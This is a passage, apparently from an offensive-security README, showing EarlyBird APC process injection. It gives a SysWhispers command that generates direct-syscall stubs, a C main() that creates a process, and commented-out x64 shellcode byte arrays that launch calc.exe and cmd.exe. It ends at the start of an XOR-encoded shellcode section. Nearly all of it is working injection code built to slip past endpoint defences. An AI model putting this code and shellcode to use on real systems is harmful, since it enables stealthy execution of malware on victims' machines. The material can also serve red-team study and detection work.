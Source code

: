 ```c
    }

    return 0;
}
```

*EarlyBird injection - new process*

```
python .\syswhispers.py -a x64 -o EarlyBird --functions NtAllocateVirtualMemory,NtWriteVirtualMemory,NtProtectVirtualMemory,NtOpenProcess,NtResumeThread,NtQueueApcThread
```

```
int main() {
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));

	/* Calc.exe */
	//unsigned char shellcode[] = "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
	//"\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
	//"\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
	//"\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
	//"\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
	//"\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
	//"\x48\x83\xec\x20\x41\xff\xd6";

	/* cmd.exe */
	//unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
	//"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
	//"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
	//"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
	//"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
	//"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
	//"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
	//"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
	//"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
	//"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
	//"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
	//"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
	//"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
	//"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	//"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
	//"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
	//"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
	//"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x6d\x64"
	//"\x2e\x65\x78\x65\x00";

	/* XOR encoded CMD (0xda) */
```